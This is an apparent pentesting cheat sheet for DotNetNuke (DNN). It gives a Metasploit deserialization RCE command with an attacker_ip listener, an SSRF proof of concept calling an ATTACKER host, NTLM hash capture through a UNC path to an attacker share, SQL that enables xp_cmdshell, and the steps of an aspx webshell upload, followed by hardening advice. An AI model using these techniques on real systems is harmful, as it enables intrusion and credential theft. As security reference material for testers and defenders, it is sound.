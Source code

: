 # DotNetNuke (DNN)


## DotNetNuke (DNN)

If you enter as **administrator** in DNN it's easy to obtain **RCE**, however a number of *unauthenticated* and *post-auth* techniques have been published in the last few years.  The following cheat-sheet collects the most useful primitives for both offensive and defensive work.

---
## Version & Environment Enumeration

* Check the *X-DNN* HTTP response header – it usually discloses the exact platform version.
* The installation wizard leaks the version in `/Install/Install.aspx?mode=install` (accessible on very old installs).
* `/API/PersonaBar/GetStatus` (9.x) returns a JSON blob containing `"dnnVersion"` for low-privilege users.
* Typical cookies you will see on a live instance:
  * `.DOTNETNUKE` – ASP.NET forms authentication ticket.
  * `DNNPersonalization` – contains XML/serialized user profile data (old versions – see RCE below).

---
## Unauthenticated Exploitation

### 1. Cookie Deserialization RCE  (CVE-2017-9822 & follow-ups)
*Affected versions ≤ 9.3.0-RC*

`DNNPersonalization` is deserialized on every request when the built-in 404 handler is enabled.  Crafted XML can therefore lead to arbitrary gadget chains and code execution.

```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
```The module automatically chooses the right path for patched but still vulnerable versions (CVE-2018-15811/15812/18325/18326).  Exploitation works **without authentication** on 7.x–9.1.x and with a *verified* low-privilege account on 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Affected versions < 9.13.8  –  Patch released April 2025*

A bypass of the older `DnnImageHandler` fix enables an attacker to coerce the server to issue **arbitrary GET requests** (semi-blind SSRF).  Practical impacts:

* Internal port scan / metadata service discovery in cloud deployments.
* Reach hosts otherwise firewalled from the Internet.

Proof-of-concept (replace `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
```The request is triggered in the background; monitor your listener for callbacks.

### 3. NTLM Hash Exposure via UNC Redirect  (CVE-2025-52488)
*Affected versions 6.0.0 – 9.x (< 10.0.1)*

Specially crafted content can make DNN attempt to fetch a resource using a **UNC path** such as `\\attacker\share\img.png`.  Windows will happily perform NTLM negotiation, leaking the server-account hashes to the attacker.  Upgrade to **10.0.1** or disable outbound SMB at the firewall.

### 4. IP Filter Bypass  (CVE-2025-52487)
If administrators rely on *Host/IP Filters* for admin portal protection, be aware that versions prior to **10.0.1** can be bypassed by manipulating `X-Forwarded-For` in a reverse-proxy scenario.

---
## Post-Authentication to RCE

### Via SQL console
Under **`Settings → SQL`** a built-in query window allows execution against the site database.  On Microsoft SQL Server you can enable **`xp_cmdshell`** and spawn commands:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
```
### Via ASPX webshell upload
1. Go to **`Settings → Security → More → More Security Settings`**.
2. Append `aspx` (or `asp`) to **Allowable File Extensions** and **Save**.
3. Browse to **`/admin/file-management`** and upload `shell.aspx`.
4. Trigger it at **`/Portals/0/shell.aspx`**.

---
## Privilege Escalation on Windows
Once code execution is achieved as **IIS AppPool\<Site>**, common Windows privilege-escalation techniques apply.  If the box is vulnerable you can leverage:

* **PrintSpoofer** / **SpoolFool** to abuse *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** to escape *Service Accounts*.

---
## Hardening Recommendations (Blue Team)

* **Upgrade** to at least **9.13.9** (fixes SSRF bypass) or preferably **10.0.1** (IP filter & NTLM issues).
* Remove residual **`InstallWizard.aspx*`** files after installation.
* Disable outbound SMB (ports 445/139) egress.
* Enforce strong *Host Filters* on the edge proxy rather than within DNN.
* Block access to `/API/RemoteContentProxy` if unused.


## References

* Metasploit `dnn_cookie_deserialization_rce` module documentation – practical unauthenticated RCE details (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF bypass & patch information.

